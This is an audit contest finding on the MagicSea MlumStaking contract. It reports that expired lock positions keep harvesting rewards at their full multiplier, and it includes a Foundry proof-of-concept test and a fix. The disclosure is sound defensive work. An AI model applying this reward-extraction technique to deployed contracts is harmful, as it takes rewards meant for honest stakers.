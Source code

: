 Damp Basil Wolverine

Medium

# Users can harvest expired positions and receive the full amount of rewards with their funds being already unlocked

## Summary
Users can still harvest rewards after the position expiration. After position expiration user can harvest full rewards as if their position was still locked for staking.

## Vulnerability Detail
When a user creates a position using the `createPosition` function, they can specify a lock duration. A longer lock duration results in a higher multiplier and greater rewards. However, because there is no check in `_harvestPosition` to ensure that the position has not expired, or any mechanism to reduce users rewards if their position is expired (`amountWithMultiplier` would stay the same after expiration and this part of the problem), users are able to harvest their rewards as usual after the position expires. Additionally, they still have the ability to withdraw their funds at any time because their position has technically ended, and there are no restrictions on withdrawing funds.

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L664-L667

## Impact
Users can receive rewards without an incentive to lock tokens inside the contract after expiration date.

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L674-L686

## PoC

Insert into MlumStaking.t.sol

```solidity
  function testHarvestForExpiredPosition() public {
        _rewardToken.mint(address(_pool), 50e18);
        createPosition(ALICE, 1 ether);
        createPosition(BOB, 1 ether, 30 days);
        createPosition(makeAddr("RANDOM USER"), 1 ether, 30 days);
        _rewardToken.mint(address(_pool), 100e18);
        MlumStaking.StakingPosition memory position = _pool.getStakingPosition(
            2
        );
        uint amountWithMultiplier = position.amountWithMultiplier;
        vm.warp(block.timestamp + 30 days);
        harvestPosition(BOB, 2);
        _rewardToken.mint(address(_pool), 100e18);
        vm.warp(block.timestamp + 60 days);
        harvestPosition(BOB, 2); // BUG IS HERE, user can harvest rewards even after position is expired with the old amountWithMultiplier (rewards rate)
        position = _pool.getStakingPosition(2);
        uint amountWithMultiplierAfterExpiration = position
            .amountWithMultiplier;
        assertEq(amountWithMultiplierAfterExpiration, amountWithMultiplier); // PROOF, user would have the same amount multiplier and therefore the same amount of rewards
    }

    function harvestPosition(address account, uint tokenId) internal {
        vm.startPrank(account);
        uint balanceBefore = _rewardToken.balanceOf(account);
        _pool.harvestPosition(tokenId);
        uint balanceAfter = _rewardToken.balanceOf(account);
        // console.log(account);
        console.log("Received  ", balanceAfter - balanceBefore);
        vm.stopPrank();
    }
    function createPosition(
        address account,
        uint amount,
        uint duration
    ) internal {
        _stakingToken.mint(account, amount);
        vm.startPrank(account);
        _stakingToken.approve(address(_pool), amount);
        _pool.createPosition(amount, duration);
        vm.stopPrank();
    }
    function createPosition(address account, uint amount) internal {
        _stakingToken.mint(account, amount);
        vm.startPrank(account);
        _stakingToken.approve(address(_pool), amount);
        _pool.createPosition(amount, 0);
        vm.stopPrank();
    }
```

## Tool used

Foundry.

## Recommendation

Remove ability to harvest rewards when lock duration is expired or make them significantly smaller.

